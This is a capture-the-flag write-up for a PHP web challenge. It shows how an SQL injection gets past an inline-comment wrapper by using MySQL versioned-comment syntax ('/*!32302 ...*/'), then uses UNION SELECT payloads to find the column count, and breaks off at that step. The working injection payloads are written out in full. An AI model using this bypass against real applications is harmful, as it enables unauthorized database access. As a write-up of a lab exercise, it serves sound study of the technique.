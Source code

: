 PS: I was too late to take the screenshots so I'm sorry that I can't provide them but I have the source code of the task.

When visiting the main page of the task ([see the source code here](resources/web-50-execute_no_evil/index.php), we can see in the source code that we can visit a secret page under the ``/?source=1`` page.

We can see that we can perform an SQL injection inside this query

```
"SELECT * FROM users WHERE name=/*" . $name . "*/ 'Geronimo'"
```

The idea was to close the inline SQL comment `/**/Injected_Query/**/`.

But, as we seen on the previous line, we can't use the wildcard character `*`.

I was hopeless until the last day before 15 minutes of the end of the CTF and I found the clue to jailbreak the inline SQL comment when I used a value that starts with `!`.

After a quick Google search, I find that we can execute an SQL query inside the inline comment using a specific format `/*!32302 Your_Query*/` which is equivalent to `Your_Query` which disables the inline comment.

The first thing that we should do, is keeping the actual SQL query valid using an Union based query. So we should find how much columns are selected (that we are going to retreive using the Union query) so the Union query didn't trigger any error.

Let's take an example:

>`!32302 "ok" or 1 UNION ALL SELECT 1 from information_schema.tables where table_schema=database() or ` -> This will trigger an SQL error

>`!32302 "ok" or 1 UNION ALL SELECT 1,2 from information_schema.tables where table_schema=database() or ` -> This will trigger an SQL error

>`!32302 "ok" or 1 UNION ALL SELECT 1,2,3 from information_schema.tables where table_schema=database() or ` -> This will work and will show a table containing in each column the values `2` and `3`.

So, the actual SQL query is selecting 3 columns.

I'm gonna explain why this query worked.

The query that worked is fully interpreted like this:

```
SELECT * FROM users WHERE name=/*!32302 "ok" or 1 UNION ALL SELECT 1,2,3 from information_schema.tables where table_schema=database() or */ 'Geronimo'
```

Which is equivalent to:

```
SELECT * FROM users WHERE name="ok" or 1 UNION ALL SELECT 1,2,3 from information_schema.tables where table_schema=database() or 'Geronimo'
```

Which is also equivalent to:

```
SELECT * FROM users UNION ALL SELECT 1,2,3 from information_schema.tables where table_schema=database()
```
